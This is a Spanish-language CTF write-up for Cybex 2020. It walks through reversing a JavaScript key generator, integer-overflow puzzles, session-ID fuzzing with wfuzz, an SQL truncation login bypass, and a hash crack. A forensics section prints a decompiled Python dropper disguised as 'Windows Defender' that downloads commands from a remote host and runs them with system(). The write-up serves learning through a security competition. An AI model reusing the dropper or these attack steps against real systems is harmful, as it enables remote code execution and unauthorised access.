










Cybex 2020 CTF

Cybex 2020 Challenges Writeup⌗
Reversing⌗
Serial⌗
Se trata de un ejecutable .NET, utilizando IDA obtenemos la flag directamente, puesto que no esta ofuscada.
Loadme⌗
Para este reto utilicé GHidra, aunque IDA podría haber funcionado exactamente igual. Viendo las funciones que exporta la DLL, vemos “catchMe”. Dentro de ella, podemos ver un array de valores en hexadecimal, al que se le aplica un XOR en un bucle for. Aplicando la clave XOR del bucle al array en hexadecimal obtenemos la flag.
Terrorist Key⌗
En este desafío tenemos un JS obfuscado que genera claves. Dada la clave del terrorista, tendremos que hacer reversing al JS para averiguar cual es el nombre, apellidos y fecha originales que han sido utilizados para generar dicha clave.
Fase 1: Limpiar el código innecesario y renombrar variables
function generate() {
let nameHolder = $("#nameHolder").val().toLowerCase();
let surname1Holder = $("#surname1Holder").val().toLowerCase();
let surname2Holder = $("#surname2Holder").val().toLowerCase();
var regex = /^[A-Za-z]+$/;
if (
!nameHolder.match(regex) |
!surname1Holder.match(regex) |
!surname2Holder.match(regex)
) {
alert("¿Desde cuando un nombre tiene números o espacios?");
return;
}
if (
(nameHolder.length > 10) |
(surname1Holder.length > 10) |
(surname2Holder.length > 10)
) {
alert("El nombre o los apellidos no pueden superar los 10 caracteres");
return;
}
if (
(nameHolder.length < 1) |
(surname1Holder.length < 1) |
(surname2Holder.length < 1)
) {
alert("¿No tienes nombre o que?");
return;
}
let longestSurname;
let currentDate = new Date();
let day = currentDate.getDate();
let month = currentDate.getMonth() + 1;
let year = currentDate.getFullYear();
let key = "";
let key1 = "";
let name = nameHolder;
if (name.length < day) {
let _0xfa92xe = day - nameHolder.length;
for (let i = 0; i < _0xfa92xe; i++) {
name += nameHolder.charAt(i % nameHolder.length);
}
}
let surname1 = surname1Holder;
if (surname1.length < day) {
let _0xfa92xe = day - surname1Holder.length;
for (let i = 0; i < _0xfa92xe; i++) {
surname1 += surname1Holder.charAt(i % surname1Holder.length);
}
}
let surname2 = surname2Holder;
if (surname2.length < day) {
let _0xfa92xe = day - surname2Holder.length;
for (let i = 0; i < _0xfa92xe; i++) {
surname2 += surname2Holder.charAt(i % surname2Holder.length);
}
}
let userdata = [name, surname1, surname2];
let 3 = userdata.length;
for (let i = 0; i < month; i++) {
key1 += userdata[i % 3].charAt(day - 1);
}
let qwertypoasz = "qwertypoasz";
let formattedDate = String(day + month + year);
formattedDate.split("").forEach(c => {
if (c > qwertypoasz.length) {
key1 += qwertypoasz.charAt(c % qwertypoasz.length);
return;
}
key1 += qwertypoasz.charAt(c);
});
let key2 = "";
if (surname1Holder.length != surname2Holder.length) {
if (surname1Holder.length > surname2Holder.length) {
longestSurname = surname1Holder.length;
} else {
longestSurname = surname2Holder.length;
}
} else {
longestSurname = surname1Holder.length;
}
for (let i = 0; i < longestSurname; i++) {
if (i < surname1Holder.length) {
key2 += String.fromCharCode(
((surname1Holder.charCodeAt(i) - 97 + month) % 26) + 97
);
}
if (i < surname2Holder.length) {
key2 += String.fromCharCode(
((surname2Holder.charCodeAt(i) - 97 + month) % 26) + 97
);
}
}
let key3 = "";
let _0xfa92x19 = surname2Holder + surname1Holder;
name = nameHolder;
for (let i = 0; i < name.length; i++) {
key3 += String.fromCharCode(
((name.charCodeAt(i) -
97 +
_0xfa92x19.charCodeAt(i % _0xfa92x19.length) -
97) %
26) +
97
);
}
let key4 = "";
let aopqmnzgxbcv = "aopqmnzgxbcv";
let _0xfa92x1c = String(year + surname2Holder.length);
_0xfa92x1c.split("").forEach(c => {
key4 += aopqmnzgxbcv.charAt(c % 12);
});
key4 += aopqmnzgxbcv.charAt(
surname1Holder.length % aopqmnzgxbcv.length
);
// asfaeqew-swygxsmjwmiph-ccbnmp-paann
key += key1 + "-";
key += key2 + "-";
key += key3 + "-";
key += key4;
$("#resultHolder")["val"](key);
}
Fase 2: descomponer la clave en trozos y recuperar cada dato por separado.
function generate() {
let nameHolder = $("#nameHolder").val().toLowerCase();
let surname1Holder = $("#surname1Holder").val().toLowerCase();
let surname2Holder = $("#surname2Holder").val().toLowerCase();
var regex = /^[A-Za-z]+$/;
if (
!nameHolder.match(regex) |
!surname1Holder.match(regex) |
!surname2Holder.match(regex)
) {
alert("¿Desde cuando un nombre tiene números o espacios?");
return;
}
if (
(nameHolder.length > 10) |
(surname1Holder.length > 10) |
(surname2Holder.length > 10)
) {
alert("El nombre o los apellidos no pueden superar los 10 caracteres");
return;
}
if (
(nameHolder.length < 1) |
(surname1Holder.length < 1) |
(surname2Holder.length < 1)
) {
alert("¿No tienes nombre o que?");
return;
}
let longestSurname;
let currentDate = new Date();
let day = currentDate.getDate();
let month = currentDate.getMonth() + 1;
let year = currentDate.getFullYear();
let key = "";
let key1 = "";
let name = nameHolder;
if (name.length < day) {
let diff = day - nameHolder.length;
for (let i = 0; i < diff; i++) {
name += nameHolder.charAt(i % nameHolder.length);
}
}
let surname1 = surname1Holder;
if (surname1.length < day) {
let diff = day - surname1Holder.length;
for (let i = 0; i < diff; i++) {
surname1 += surname1Holder.charAt(i % surname1Holder.length);
}
}
let surname2 = surname2Holder;
if (surname2.length < day) {
let diff = day - surname2Holder.length;
for (let i = 0; i < diff; i++) {
surname2 += surname2Holder.charAt(i % surname2Holder.length);
}
}
//key 1: asfaeqew
let userdata = [name, surname1, surname2];
for (let i = 0; i < month; i++) {
// asfa: 4 chars, el mes es 4.
key1 += userdata[i % 3].charAt(day - 1);
}
let qwertypoasz = "qwertypoasz";
let formattedDate = String(day + month + year);
formattedDate.split("").forEach(c => {
// eqew --> 2021, el mes es 4 --> 2017 = dia + año --> FINAL: año es 1997, dia es 20
if (c > qwertypoasz.length) {
key1 += qwertypoasz.charAt(c % qwertypoasz.length);
return;
}
key1 += qwertypoasz.charAt(c);
});
let key2 = ""; // swygxsmjwmiph --(-4)--> osuctoifsield
// Apellido 1 *length 5*: outis
// Apellido 2 *length 8*: scofield
if (surname1Holder.length != surname2Holder.length) {
if (surname1Holder.length > surname2Holder.length) {
longestSurname = surname1Holder.length;
} else {
longestSurname = surname2Holder.length;
}
} else {
longestSurname = surname1Holder.length;
}
for (let i = 0; i < longestSurname; i++) {
if (i < surname1Holder.length) {
key2 += String.fromCharCode(
((surname1Holder.charCodeAt(i) - 97 + month) % 26) + 97 // 97 es 'a' en la tabla ASCII
);
}
if (i < surname2Holder.length) {
key2 += String.fromCharCode(
((surname2Holder.charCodeAt(i) - 97 + month) % 26) + 97 // 97 es 'a' en la tabla ASCII
);
}
}
let key3 = ""; // ccbnmp
let prekey = surname2Holder + surname1Holder; // scofieldoutis
name = nameHolder;
for (let i = 0; i < name.length; i++) {
key3 += String.fromCharCode(
((name.charCodeAt(i) - 97 + prekey.charCodeAt(i % 13) - 97) % 26) + 97 // Vigenere decode with key scofieldoutis --> kaniel
);
}
let key4 = "";
let aopqmnzgxbcv = "aopqmnzgxbcv"; // PENULTIMO: paan --> 2005, length de surname2 es 8, año es 1997
let _0xfa92x1c = String(year + surname2Holder.length);
_0xfa92x1c.split("").forEach(c => {
key4 += aopqmnzgxbcv.charAt(c % 12);
});
key4 += aopqmnzgxbcv.charAt(
surname1Holder.length % aopqmnzgxbcv.length //
);
// asfaeqew-swygxsmjwmiph-ccbnmp-paann
key += key1 + "-";
key += key2 + "-";
key += key3 + "-";
key += key4;
$("#resultHolder")["val"](key);
}
Flag: CYBEX{KANIEL-OUTIS-SCOFIELD:20-04-1997}
nArrow⌗
Tenemos un JavaScript con forma de flecha, literal.
"function chequea_flag(f){
s=i=>i.replace(/./g,o=>
\"936\"+o.charCodeAt())
z=s=>s.split``;i=18
a=z(s(1398+'7')).
join(++i)+\"652\"
s=z=>z===a+37
if(s(f+=237
))alert`!
!`;else
alert
`B`
}"
Limpiando el código
function chequea_flag(f) {
s = i => i.replace(/./g, o => "936"+o.charCodeAt())
z = s => s.split ``
i = 18
a = z(s(1398 + '7')).join(++i) + "652"
s = z => z === a + 37
if (s(f += 237)) alert `!!`;
else
alert `B`
}
Evaluamos en el navegador las 5 primeras líneas, puesto que son constantes y no dependen del parámetro f de flag, obtenemos:
9193196194199199193196195191199193196195197199193196195196199193196195195652
Pwn⌗
Integer Operations⌗
El tipo de datos int en lenguajes como C y Java está limitado a 32 bits, por lo que el rango de valores válido que puede tomar está entre 2147483647 y -2147483648.
Teniendo en cuenta esto, podemos hacer rapidamente las dos primeras fases enviando valores cercanos a dicho límite para que se produzca un overflow (2147483647 + 1 = -2147483648, -2147483648 - 1 = 2147483647)
Fase 3:
Nos pide obtener `1337` sumando dos números mayores a `1337`.
X: 4294967294 (maxint * 2, siendo maxint el límite positivo de int) se corresponde con el número -2.
Y: 1339
Sumar ambos números nos da 1337, el número pedido.
Fase 4:
x > 1337
x² - 153153 = 417061379
X**2 = 417214532
Para resolverlo me piqué el siguiente fragmento en Java (En Python es mas difícil puesto que los números en Python no tienen la misma limitación que C y Java).
public static void main(String[] args) {
for (int i = 1337; i < Integer.MAX_VALUE; i++) {
int result = i * i - 153153;
if(result == 417061379){
System.out.println(i);
}
}
}
Dicho fragmento calcula por fuerza bruta todos los números que cumplen la condición pedida:
132654
1073609170
1073874478
2147350994
Web⌗
Unsafe Behaviour⌗
En el primer reto de web, tenemos un formulario de login simple:

Si abrimos el inspector el navegador hace cosas raras, ¿qué está ocurriendo? Puede haber código Javascript que esté interfiriendo con el propio navegador, por lo que desactivamos Javascript con cualquier plugin para el navegador para ello, como NoScript, y recargamos la página para analizar el código.
Revisando el único JS de la página, encontramos el usuario y la contraseña pedidas, admin y hunter2. Con Javascript desactivado para evitar que nos redirija al index.html, nos logeamos y obtenemos la flag:
Flag: CYBEX{Cl13nT_s1D3_v4l1D4TIOn}
Celebrities Keep A Secret⌗
Al acceder a la página vemos que se carga un perfil utilizando un POST con el parámetro idsesion.
Para identificar todos los valores válidos para dicho parámetro, usaremos la herramienta wfuzz:
wfuzz -z range,0-10000 --hh 2069 -d "idsesion=FUZZ" http://51.38.191.113:1338/c7303adc0/miperfil.php
===================================================================
ID Response Lines Word Chars Payload
===================================================================
000001846: 200 65 L 129 W 2134 Ch "1845" --> Chema Alonso, password INMUERKYPMYV63BRNMZV65BQL5TTA43TGFYH2===
000001992: 200 65 L 129 W 2125 Ch "1991" --> Julio Urena, pasword OF2WK5DBNRUW4Z3FNZUWK4TPOM======
000001996: 200 65 L 128 W 2137 Ch "1995" --> IppSec, password NFWG65TFNBQWG23UNBSWE33Y
000001995: 200 65 L 128 W 2112 Ch "1994" --> s4vitar, password NBSXS3LVPFRHKZLOMFZWC5DPMRXXG43PPFZTI5TJORQXE===
Las contraseñas de cada usuario se encuentran en el propio HTML de la web. Haciendo base32 decode a la contraseña de Chema Alonso, obtenemos la flag:
Flag: CYBEX{1_l1k3_t0_g0ss1p}
Coronao⌗
Utilizando el código fuente disponible en el repositorio del autor vemos que es vulnerable a SQL Truncation.
Para explotar la vulnerabilidad, nos registramos una cuenta con usuario admin 1 (admin seguido de 6 espacios y cualquier otro caracter) y una password conocida solo por nosotros. Nos logeamos como admin y la password elegida.
Más información sobre como funciona este ataque.
Forense⌗
People are bad⌗
Revisando los strings del fichero, vemos funciones interesantes que nos hacen sospechar que podríamos estar ante un programa Python.
Revisando documentación varia (especialmente interesante https://blog.attify.com/flare-on-6-ctf-writeup-part7/), extraemos todos los ficheros y decompilamos el entry point. Para decompilar el fichero, es necesario reconstruir las cabeceras primero, para lo cual utilizaremos un código compilado por nosotros.
poltatil@kali:~/CybexCTF/Forensic$ python3
Python 3.7.7 (default, Apr 1 2020, 13:48:52)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import py_compile
>>> py_compile.compile('test.py')
'__pycache__/test.cpython-37.pyc'
>>> exit()
poltatil@kali:~/CybexCTF/Forensic$ ls -lshA
total 7.1M
4.0K -rw-r--r-- 1 poltatil poltatil 16 Apr 5 01:39 header
4.0K drwxr-xr-x 2 poltatil poltatil 4.0K Apr 5 01:43 __pycache__
16K -rw-r--r-- 1 poltatil poltatil 13K Apr 5 01:21 pyinstxtractor.py
4.0K drwxr-xr-x 15 poltatil poltatil 4.0K Apr 5 01:35 python-decompile3
4.0K drwxr-xr-x 5 poltatil poltatil 4.0K Apr 5 01:21 python-exe-unpacker
4.0K drwxr-xr-x 15 poltatil poltatil 4.0K Apr 5 01:33 python-uncompyle6
4.0K -rw-r--r-- 1 poltatil poltatil 352 Apr 5 01:40 ready.pyc
4.0K -rw-r--r-- 1 poltatil poltatil 14 Apr 5 01:37 test.py
4.0K -rw-r--r-- 1 poltatil poltatil 336 Apr 5 01:35 WD.pyc
7.0M -rw-r--r-- 1 poltatil poltatil 7.0M Apr 5 01:13 WindowsDefender.exe
4.0K drwxr-xr-x 3 poltatil poltatil 4.0K Apr 5 01:25 WindowsDefender.exe_extracted
poltatil@kali:~/CybexCTF/Forensic$ xxd __pycache__/test.cpython-37.pyc
00000000: 420d 0d0a 0000 0000 371a 895e 0e00 0000 B.......7..^....
00000010: e300 0000 0000 0000 0000 0000 0002 0000 ................
00000020: 0040 0000 0073 0c00 0000 6500 6400 8301 .@...s....e.d...
00000030: 0100 6401 5300 2902 5a04 686f 6c61 4e29 ..d.S.).Z.holaN)
00000040: 01da 0570 7269 6e74 a900 7202 0000 0072 ...print..r....r
00000050: 0200 0000 fa07 7465 7374 2e70 79da 083c ......test.py..<
00000060: 6d6f 6475 6c65 3e01 0000 00f3 0000 0000 module>.........
poltatil@kali:~/CybexCTF/Forensic$
poltatil@kali:~/CybexCTF/Forensic$ echo -n -e '\x42\x0d\x0d\x0a\x00\x00\x00\x00\x37\x1a\x89\x5e\x0e\x00\x00\x00' > header
poltatil@kali:~/CybexCTF/Forensic$ cat header WD.pyc >ready.pyc
poltatil@kali:~/CybexCTF/Forensic$ decompyle3 ready.pyc
# decompyle3 version 3.3.2
# Python bytecode 3.7 (3394)
# Decompiled from: Python 3.7.7 (default, Apr 1 2020, 13:48:52)
# [GCC 9.3.0]
# Embedded file name: Windows Defender.py
# Size of source mod 2**32: 14 bytes
import requests
from os import system
r1 = requests.get('https://cybexsec.es/pabc2/command1.txt')
r2 = requests.get('https://cybexsec.es/pabc2/command2.txt')
while 1:
if r1.text != '':
if r2.text != '':
system(r1.text)
system(r2.text)
exit()
# okay decompiling ready.pyc
Revisando los comandos que va a ejecutar el Malware vemos una second stage, pero no parece que tenga nada interesante.
En la URL base vemos la página de login del C&C: https://cybexsec.es/pabc2/
Accediendo con los conocidos admin/admin, obtenemos el siguiente base32 que nos dará la flag.
INMUERKYPNLTGXZUOIZV6NDMNRPXO4RQNZTV64ZQNUZXIMLNGN6Q====
Flag: CYBEX{W3_4r3_4ll_wr0ng_s0m3t1m3}
Redes⌗
¿Un PCAP otra vez?⌗
En uno de los post a la URL de login tenemos una contraseña un tanto extraña, teniendo en cuenta que debería ir en texto plano:
Form item: "pw" = "FXL2DaZ5PdWdQXZ5Dqt2PdL5QNPoD2WaEUEzFNVoEdWbEdH4EqRnDKPqPKx1DUPqP2LpFKQyEqAcPaPoEax5PqD0QKczEUt4EaMcDdZnD2QyQKWzDNV2DUcaDKx5Dqx5QaH1QNZ5EaV2PaH5PqLoEKWbQUP0DaZoPqczPNHoDaD="
Haciendo “rot 9” y “from base64” en CyberChef obtenemos el siguiente hash hexadecimal:
376be9ef13ac43b9a16ad6d8700163a85063ce296a72eb61689c34e9b47865e2b03fae1b1a609c189389f45eb9616b49c5151dd64221c9bad123
Dada la longitud de 512, es posible que se trate de un SHA512, mirando en CrackStation vemos que ya ha sido crackeado.
Flag: CYBEX{pandora}
OSINT⌗
Ritual⌗
Parece un hospital abandonado, buscando en Google “barcelona hospital abandonado” obtenemos una página de la Wikipedia.
https://es.wikipedia.org/wiki/Hospital_del_T%C3%B3rax_(Tarrasa)
Flag: CYBEX{hospitaldeltorax}
CTF{Catch The Rebel}⌗
Utilizando la función de búsqueda reversa de Yandex, obtenemos una imagen similar:

La cual nos lleva a la siguiente página de FourSquare:

Probando varias de las calles cercanas obtenemos la correcta, roseavenue.
Flag: CYBEX{roseavenue}
Operación retorno⌗
Nos dan una una URL de SoundCloud

Buscando en Google obtenemos un match en Facebook, posible perfil del autor:

